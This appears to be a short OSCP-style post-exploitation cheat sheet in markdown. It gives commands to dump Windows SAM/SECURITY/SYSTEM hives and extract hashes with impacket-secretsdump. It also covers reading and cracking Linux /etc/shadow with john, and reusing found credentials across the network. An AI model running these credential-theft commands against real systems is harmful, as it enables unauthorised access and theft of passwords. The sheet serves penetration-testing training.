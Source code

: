 # Loot, Booty & Plunder

## Tools

* [Lazagne](https://github.com/AlessandroZ/LaZagne)

## Methodology

### Dump users hashes

#### Windows

* Using fgdump, wce32.exe
* Extract registries:

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

* Extract hashes from registries' saves:

```
impacket-secretsdump -security security.save -sam sam.save -system system.save LOCAL
```

* [https://pure.security/dumping-windows-credentials/](https://pure.security/dumping-windows-credentials/)

#### Linux

```
cat /etc/passwd
cat /etc/shadow

unshadow passwd shadow > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

### Search for creds & interesting data

#### Windows

#### Linux

```
ls -laR /home
ls -laR /root

# search for interesting files
```

### Check available services for data

### Re-check network config

#### Windows

#### Linux

```
netstat -antup
arp -a
```

### Crack hashes

### Use found creds on SSH/RDP across the network

## OSCP Proof Files

```
# Windows
type proof.txt && whoami && hostname && ipconfig

# Linux
cat proof.txt && whoami && hostname && ip addr
```
